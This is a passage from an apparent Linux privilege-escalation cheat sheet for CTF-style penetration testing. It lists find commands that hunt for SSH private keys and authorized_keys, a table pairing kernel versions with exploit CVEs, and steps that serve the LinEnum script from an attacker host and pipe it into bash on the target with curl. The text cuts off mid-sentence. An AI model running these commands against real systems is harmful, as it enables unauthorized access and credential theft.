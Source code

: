 ```shell
find / -name authorized_keys  
find / -name id_rsa 2>/dev/null  
```

## Kernel Exploits

Based on the Kernel version, do we have some reliable exploits that can be used?

| Kernel Version                                                                       | Reliable exploit                               |
|--------------------------------------------------------------------------------------|------------------------------------------------|
| UDEV - Linux Kernel < 2.6 & UDEV < 1.4.1 - CVE-2009-1185 - April 2009                | Ubuntu 8.10, Ubunto 9.04, Gentoo               |
| RDS - Linux Kernel <= 2.6.36-rc8 - CVE-2010-3904 - Linux Exploit -                   | Centos 4/5                                     |
| perf_swevent_init - Linux Kernel < 3.8.9 (x86-64) - CVE-2013-2094 - June 2013        | Ubuntu 12.04.2                                 |
| mempodipper - Linux Kernel 2.6.39 < 3.2.2 (x86-64) - CVE-2012-0056 - January 2012    | Ubuntu 11.10, Ubuntu 10.04, Redhat 6, Oracle 6 |
| Dirty Cow - Linux Kernel 2.6.22 < 3.2.0/3.13.0/4.8.3 - CVE-2016-5195 - October 2016  | Ubuntu 12.04, Ubuntu 14.04, Ubuntu 16.04       |
| KASLR / SMEP - Linux Kernel < 4.4.0-83 / < 4.8.0-58 - CVE-2017-1000112 - August 2017 | Ubuntu 14.04, Ubuntu 16.04                     |

Great list here: <https://github.com/lucyoa/kernel-exploits>

## Automated Linux Enumeration Scripts

It is always a great idea to automate the enumeration process once you understand what you are looking for.

### LinEmum.sh

LinEnum is a handy method of automating Linux enumeration. It is also written as a shell script and does not require any other intpreters (Python,PERL etc.) which allows you to run it file-lessly in memory.

First we need to git a copy to our local Kali linux machine:

  `git clone https://github.com/rebootuser/LinEnum.git`

Next we can serve it up in the python simple web server:

```shell
root@kali:~test# cd LinEnum/
root@kali:~test/LinEnum# ls
root@kali:~test/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

And now on our remote Linux machine we can pull down the script and pipe it directly to Bash:
  `www-data@vulnerable:/var/www$ curl 10.10.10.10/LinEnum.sh | bash`
And the enumeration script should run on the remote machine.

## CTF Machine Tactics

Often it is easy to identify when a machine was created by the date / time of file edits. We can create a list of all the files with a modify time in that timeframe with the following command:
